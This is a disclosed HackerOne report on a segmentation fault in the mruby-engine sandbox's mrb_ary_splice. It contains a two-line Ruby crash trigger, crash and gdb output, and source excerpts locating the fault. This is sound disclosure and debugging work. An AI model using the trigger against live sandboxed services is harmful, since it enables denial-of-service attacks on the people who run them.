 # SIGSEV on mrb_ary_splice

## Report Details
- **Report ID**: 182027
- **URL**: https://hackerone.com/reports/182027
- **State**: Closed
- **Severity**: high
- **Submitted**: 2016-11-14T09:03:18.376Z
- **Disclosed**: 2016-12-17T02:30:17.988Z

## Reporter
- **Username**: jpenalbae
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
## Sample
The following code causes a SIGSEV when executed under the sandbox
```
t0me=methods
t0me[0,0]=t0me
```

## Crash
Here we can see the crash (full crash output attached)
```
$ bin/sandbox /tmp/mrb_ary_splice-crash.rb
bin/sandbox:21: [BUG] Segmentation fault at 0x00005200000004
ruby 2.3.1p112 (2016-04-26) [x86_64-linux-gnu]

-- Control frame information -----------------------------------------------
c:0003 p:---- s:0010 e:000009 CFUNC  :sandbox_eval
c:0002 p:0201 s:0005 E:0010a8 EVAL   bin/sandbox:21 [FINISH]
c:0001 p:0000 s:0002 E:0024b0 (none) [FINISH]

-- Ruby level backtrace information ----------------------------------------
bin/sandbox:21:in `<main>'
bin/sandbox:21:in `sandbox_eval'

-- Machine register context ------------------------------------------------
 RIP: 0x00007ff2a22bcf58 RBP: 0x0000000000000028 RSP: 0x00007ff2a0e2aa20
 RAX: 0x00007ff2a0e8c6f0 RBX: 0x0000000000000005 RCX: 0x0000000000000001
 RDX: 0x0000005200000004 RDI: 0x00007ff2a0e2c4e0 RSI: 0x00007ff2a0e34550
  R8: 0x00007ff2a0e2c000  R9: 0x00007ff2a0e8c900 R10: 0x0000000000000004
 R11: 0x0000000000000000 R12: 0x0000000000000084 R13: 0x0000000000000042
 R14: 0x00007ff2a0e34550 R15: 0x00007ff2a0e4d940 EFL: 0x0000000000010246

-- C level backtrace information -------------------------------------------
/usr/lib/x86_64-linux-gnu/libruby-2.3.so.2.3 [0x7ff2a65c4ea5]
/usr/lib/x86_64-linux-gnu/libruby-2.3.so.2.3 [0x7ff2a65c50dc]
/usr/lib/x86_64-linux-gnu/libruby-2.3.so.2.3 [0x7ff2a649f364]
/usr/lib/x86_64-linux-gnu/libruby-2.3.so.2.3 [0x7ff2a6550dbe]
/lib/x86_64-linux-gnu/libpthread.so.0 [0x7ff2a6223ed0]
/home/jaime/research/shopy/mruby-engine/lib/mruby_engine/mruby_engine.so(mrb_ary_splice+0x108) [0x7ff2a22bcf58] /home/jaime/research/shopy/mruby-engine/ext/mruby_engine/mruby/include/mruby/boxing_word.h:83
/home/jaime/research/shopy/mruby-engine/lib/mruby_engine/mruby_engine.so(mrb_ary_aset+0x177) [0x7ff2a22be337] /home/jaime/research/shopy/mruby-engine/ext/mruby_engine/mruby/src/array.c:789
/home/jaime/research/shopy/mruby-engine/lib/mruby_engine/mruby_engine.so(mrb_vm_exec+0x762) [0x7ff2a22c3cf2] /home/jaime/research/shopy/mruby-engine/ext/mruby_engine/mruby/src/vm.c:1165
/home/jaime/research/shopy/mruby-engine/lib/mruby_engine/mruby_engine.so(mrb_vm_run+0x57) [0x7ff2a22c9567] /home/jaime/research/shopy/mruby-engine/ext/mruby_engine/mruby/src/vm.c:766
/home/jaime/research/shopy/mruby-engine/lib/mruby_engine/mruby_engine.so(mruby_engine_monitored_eval+0x113) [0x7ff2a229d173] ../../../../ext/mruby_engine/eval_monitored.c:68
/lib/x86_64-linux-gnu/libpthread.so.0 [0x7ff2a621a464]
/lib/x86_64-linux-gnu/libc.so.6(__clone+0x6d) [0x7ff2a559630d]
```

## Crash debug
```
(gdb) r
Starting program: /usr/bin/ruby bin/sandbox /tmp/mrb_ary_splice-crash.rb
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New Thread 0x7ffff7ff5700 (LWP 5511)]
[New Thread 0x7ffff2348700 (LWP 5565)]

Program received signal SIGSEGV, Segmentation fault.
[Switching to Thread 0x7ffff2348700 (LWP 5565)]
mrb_ary_splice (mrb=mrb@entry=0x7ffff23494e0, ary=ary@entry=..., head=<optimized out>, len=<optimized out>, len@entry=0, rpl=...)
    at /home/jaime/research/shopy/mruby-engine/ext/mruby_engine/mruby/src/array.c:615
615         mrb_field_write_barrier_value(mrb, (struct RBasic*)a, argv[i]);
(gdb) x/2i $rip
=> 0x7ffff37d9f58 <mrb_ary_splice+264>: cmp    BYTE PTR [rdx],0x5
   0x7ffff37d9f5b <mrb_ary_splice+267>: jbe    0x7ffff37d9f24 <mrb_ary_splice+212>
(gdb) i r rdx
rdx            0x5200000004     352187318276
(gdb) list *($rip)
0x7ffff37d9f58 is in mrb_ary_splice (/home/jaime/research/shopy/mruby-engine/ext/mruby_engine/mruby/src/array.c:615).
610         value_move(a->ptr + head + argc, a->ptr + tail, a->len - tail);
611       }
612
613       for (i = 0; i < argc; i++) {
614         *(a->ptr + head + i) = *(argv + i);
615         mrb_field_write_barrier_value(mrb, (struct RBasic*)a, argv[i]);
616       }
617
618       a->len = size;
619
(gdb)
```

`mrb_field_write_barrier_value` macro equals to:
```c
#define mrb_field_write_barrier_value(mrb, obj, val) do{\
  if (!mrb_immediate_p(val)) mrb_field_write_barrier((mrb), (obj), mrb_basic_ptr(val)); \
} while (0)
```

`mrb_immediate_p` macro equals to:
```c
#define mrb_immediate_p(x) (mrb_type(x) < MRB_TT_HAS_BASIC)  // <-- Bug happens here
```

`mrb_type()` code:
```c
static inline enum mrb_vtype
mrb_type(mrb_value o)
{
  switch (o.w) {
  case MRB_Qfalse:
  case MRB_Qnil:
    return MRB_TT_FALSE;
  case MRB_Qtrue:
    return MRB_TT_TRUE;
  case MRB_Qundef:
    return MRB_TT_UNDEF;
  }
  if (o.value.i_flag == MRB_FIXNUM_FLAG) {
    return MRB_TT_FIXNUM;
  }
  if (o.value.sym_flag == MRB_SYMBOL_FLAG) {
    return MRB_TT_SYMBOL;
  }
  return o.value.bp->tt;
}
```

The bug happens once `mrb_type()` returns and `mrb_immediate_p` macro tries to compare against `MRB_TT_HAS_BASIC`.

## Impact
DoS of the service running the ruby sandbox. Does not look like that this could lead to remote code execution, but I would not discard it if the value of `argv[i]` could be controlled by the user.

## Attachments
- mrb_ary_splice-crash.rb
- mrb_ary_splice-crash.log
